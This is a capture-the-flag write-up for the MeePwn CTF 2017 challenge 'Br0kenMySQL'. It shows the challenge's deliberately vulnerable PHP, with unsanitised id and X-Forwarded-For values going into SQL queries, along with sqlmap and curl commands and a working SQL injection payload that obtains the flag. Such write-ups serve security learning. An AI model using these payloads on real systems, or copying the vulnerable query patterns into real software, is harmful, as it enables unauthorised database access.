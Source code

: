 ```yaml
---
title: "MeePwn CTF 2017: Br0kenMySQL"
date: "2017-07-17"
author: Jorge
tags:
- hack 
- ctf
toc: true
summary: ""
---
```


**100 pts**

> [BabeTrick](http://139.59.239.133/?debug=%F0%9F%95%B5)

```php
<title>Br0kenMySQL</title><h1><pre>
<p style='color:Red'>Br0kenMySQL</p>
<?php

if($_GET['debug']=='🕵') die(highlight_file(__FILE__));

require 'config.php';

$link = mysqli_connect('localhost', MYSQL_USER, MYSQL_PASSWORD);

if (!$link) {
    die('Could not connect: ' . mysql_error());
}

if (!mysqli_select_db($link,MYSQL_USER)) {
    die('Could not select database: ' . mysql_error());
}
    $id = $_GET['id'];
    if(preg_match('#sleep|benchmark|floor|rand|count#is',$id))
        die('Don\'t hurt me :-(');
    $query = mysqli_query($link,"SELECT username FROM users WHERE id = ". $id);
    $row = mysqli_fetch_array($query);
    $username = $row['username'];

    if($username === 'guest'){

        $ip = @$_SERVER['HTTP_X_FORWARDED_FOR']!="" ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR'];
        if(preg_match('#sleep|benchmark|floor|rand|count#is',$ip))
die('Don\'t hurt me :-(');
        var_dump($ip);
        if(!empty($ip))
            mysqli_query($link,"INSERT INTO logs VALUES('{$ip}')");

        $query = mysqli_query($link,"SELECT username FROM users WHERE id = ". $id);
        $row = mysqli_fetch_array($query);
        $username = $row['username'];
        if($username === 'admin'){
            echo "What ???????\nLogin as guest&admin at the same time ?\nSeems our code is broken, here is your bounty\n";
            die(FLAG);
        }
        echo "Nothing here";
    } else {
        echo "Hello ".$username;
    }
?>
</h1>
</pre>
```

## Reading the code

First of all, search the flag. We can get the flag only if you login as guest and admin at the same time.

```php
if($username === 'guest'){
    ...
    if($username === 'admin'){
        ...
        die(FLAG);
    }
    ...
}
```

There exist 2 parameters we could use: ***$_GET['id']*** ***@$_SERVER['HTTP_X_FORWARDED_FOR']***. The header is also a paramete we can set. After a few seconds of try and error we get the id of the user guest (2) and admin (1). The header is store in the table logs.

```php
mysqli_query($link,"INSERT INTO logs VALUES('{$ip}')");
```

## Testing our thoughts

In the table ***logs*** looks like there is a value named **ip** and we can confirm it with a simple sqlmap search. We test if we can hack the header as well.

```bash
$ sqlmap --dbms -u "http://139.59.239.133/?id=2 -T logs"
$ curl --header "X-Forwarded-For: 'we can hack it'" "http://139.59.239.133/?id=2"
```

## SQL injection

1. We need the username with id 2 ***(guest)***
2. We insert the variable "@$_SERVER['HTTP_X_FORWARDED_FOR']" in the table **logs**
3. We need the username with id 1 ***(admin)***

The full sql looks like this (with the ip as a random number):

```sql
SELECT username FROM users WHERE id = 2 or id=(SELECT 1 FROM logs WHERE ip=5641314)
```

## Our friend curl

As soon as the random number already exsists in the table **logs** the sql will return the first id, in this case ***admin (id=1)*** user. We need to be sure that **@$_SERVER['HTTP_X_FORWARDED_FOR']** is never used in the table. A random number will do the trick.

```bash
$ curl --header "X-Forwarded-For: 5641314" "http://139.59.239.133/?id=2%20or%20id=(SELECT%201%20FROM%20logs%20WHERE%20ip=5641314)"
```

> MeePwnCTF{_b4by_tr1ck_fixed}

```html
<title>Br0kenMySQL</title><h1><pre>
<p style='color:Red'>Br0kenMySQL</p>
string(8) "86574965"
What ???????
Login as guest&admin at the same time ?
Seems our code is broken, here is your bounty
MeePwnCTF{_b4by_tr1ck_fixed}
```
